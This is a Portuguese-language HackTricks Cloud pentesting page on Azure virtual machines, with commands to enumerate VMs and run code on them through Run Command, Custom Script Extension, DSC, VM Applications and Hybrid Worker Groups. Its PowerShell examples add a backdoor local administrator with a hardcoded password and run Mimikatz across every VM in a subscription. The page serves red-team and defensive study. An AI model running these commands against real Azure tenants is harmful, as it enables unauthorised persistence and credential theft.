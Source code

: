 # Az - Máquinas Virtuais & Rede

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Informações básicas

[Dos documentos:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) As máquinas virtuais do Azure são um dos vários tipos de [recursos de computação escaláveis sob demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que o Azure oferece. Normalmente, você escolhe uma máquina virtual quando precisa de mais controle sobre o ambiente de computação do que as outras opções oferecem. Este artigo fornece informações sobre o que você deve considerar antes de criar uma máquina virtual, como criá-la e como gerenciá-la.

## Informações sobre a Rede do Azure

As redes do Azure contêm **diferentes entidades e maneiras de configurá-las.** Você pode encontrar uma breve **descrição,** **exemplos** e comandos de **enumeração** das diferentes entidades de rede do Azure em:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferece uma solução segura e totalmente gerenciada de acesso RDP (Remote Desktop Protocol) e SSH (Secure Shell) via SSL através do portal do Azure. Está integrado dentro de uma Rede Virtual do Azure, permitindo conectividade RDP e SSH para VMs usando IPs privados, evitando a necessidade de IPs públicos. Isso o torna uma alternativa mais segura e conveniente em comparação com métodos tradicionais que envolvem atribuições de IPs públicos e configurações de regras NSG para acesso a VMs. Desenvolvedores e pessoal de TI podem acessar VMs de forma segura a partir do portal do Azure usando seus navegadores da web, simplificando o processo para ambientes de desenvolvimento e teste.

Para listar todos os Hosts do Azure Bastion em sua assinatura, você pode usar o seguinte comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeração de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Executar comandos em uma VM**

### **Login AAD na VM**

É possível permitir o acesso a usuários autenticados via AzureAD. Por exemplo, ao tentar acessar uma **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (é importante **usar o email** com o azurecorp usado ao tentar fazer login) você pode receber um erro como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguir essas instruções** acessando [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando o código, use o e-mail e a senha como credenciais e você poderá se conectar via SSH (se esse usuário tiver permissões suficientes para isso: `Virtual Machine Administrator Login` ou `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Executar Extensão de Script Personalizado**

As extensões de máquinas virtuais (VM) do Azure são **pequenos aplicativos** que fornecem configuração e automação **pós-implantação** em **VMs do Azure**. Por exemplo, se uma máquina virtual requer instalação de software, proteção antivírus ou a capacidade de executar um script dentro dela, você pode usar uma extensão de VM.

Portanto, se você tiver acesso para escrevê-lo, pode executar código arbitrário:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) é uma ferramenta PowerShell semelhante ao Ansible, usada para configurar um host através de código. O DSC integra-se ao Azure, permitindo o upload de arquivos de configuração específicos. Esses arquivos devem seguir uma sintaxe rigorosa. Notavelmente, a extensão DSC no Azure pode executar comandos de arquivos que atendem a certos critérios de formatação, mesmo que a sintaxe não esteja correta para os padrões do DSC, como mostrado na figura fornecida.

A execução desses comandos é facilitada pela função [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) no Az PowerShell. Os requisitos incluem um arquivo **.PS1** com uma função definida e o arquivo deve ser compactado em um arquivo **.zip**. Mesmo que a sintaxe possa não ser precisa para o DSC, o código ainda será executado. No entanto, a extensão marcará o status de execução como "falha", e nenhuma saída do comando será visível devido ao status ser sobrescrito pela mensagem de falha.

### VM Application Definitions

As Definições de Aplicativos de VM permitem a implantação repetível de aplicativos versionados em uma VM do Azure. Este recurso suporta a implantação e atualização de aplicativos em VMs. Para configurar isso, várias etapas são necessárias, envolvendo comandos como **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** no Az PowerShell.

A execução de aplicativos ou comandos através deste método envolve a **"VMAppExtension"**, que é instalada automaticamente quando um aplicativo é aplicado a uma VM. A extensão recupera o arquivo do URI especificado e o nomeia exatamente como o aplicativo, sem uma extensão. Para executar o arquivo corretamente, o campo "ManageActions" na chamada da API REST deve ser configurado para renomear o arquivo com a extensão apropriada. A configuração deste método, uma vez concluída, se parecerá com a estrutura mostrada na figura fornecida.

No entanto, esse método de execução é relativamente lento, levando cerca de 3-4 minutos para executar um aplicativo ou comando. Os arquivos relacionados a esse processo são armazenados em diretórios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para a cópia do aplicativo e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para o status de execução).

Ambas as técnicas fornecem maneiras únicas de executar comandos e implantar aplicativos em ambientes Azure, cada uma com seu próprio conjunto de requisitos, etapas e considerações.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) são um recurso no Azure que permite que Runbooks, configurados em uma Conta de Automação, sejam executados em uma Máquina Virtual (VM) do Azure que faz parte do HWG designado. Essa execução é facilitada por uma extensão instalada na VM, que implanta o código do Runbook na VM. Um aspecto significativo desse processo é que as credenciais reais não são um fator na execução, pois o código é executado com privilégios elevados, especificamente como **SYSTEM** ou root, como ilustrado na figura fornecida.

Um detalhe crucial para aqueles que utilizam VMs com Windows 10 é a necessidade de especificar a versão do PowerShell para o Runbook. Deve ser configurado para rodar como PowerShell Versão 5.1 em vez de 7.1. Essa exigência decorre do fato de que o PowerShell 7.1 não está instalado por padrão nessas VMs, levando a uma falha na execução do script se a versão 7.1 for especificada.

Esse recurso do Azure oferece um método robusto para automatizar e gerenciar tarefas em ambientes híbridos, permitindo a gestão e execução centralizadas de tarefas em VMs do Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
